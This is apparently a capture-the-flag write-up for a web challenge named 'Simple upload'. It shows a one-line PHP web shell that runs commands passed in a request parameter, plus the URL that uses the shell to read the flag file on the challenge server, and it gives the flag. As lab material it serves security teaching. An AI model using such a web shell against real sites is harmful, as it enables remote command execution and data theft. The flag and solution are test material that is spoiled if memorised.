



# Simple upload
Author: [Marin Radu](https://github.com/ChronosPK)

<br>

## Description
```
Upload a php shell with an unrestricted file upload.
```

<br>

## Requirements
- File upload vulnerability
- PHP code execution

<br>

## Solve
The web application only has 2 requirements for uploaded files:
- they must not have the same name
- they should not be bigger than 500B

All files are removed from the "uploads" directory every 5 minutes.

Upload a PHP web shell and execute commands.

[shell.php](./solve/shell.php):
```php
<?php
echo system($_REQUEST["cmd"]);
?>
```

The file has a new name after upload, but the application shows it to us.



We need to find the location where files are uploaded.
The first thing you should do is guess the usual upload directory names or search them online.

Go to `/uploads/`, access your webshell and read the flag in `flag.php` a directory lower:
```
http://chal.chronossec.site:30240/uploads/25a452927110e39a345a2511c57647f2.php?cmd=cat%20../hidden_secret_flag.php
```





<br>

> Flag: `CSCTF{flag-that-is-generated-every-5-minutes}`
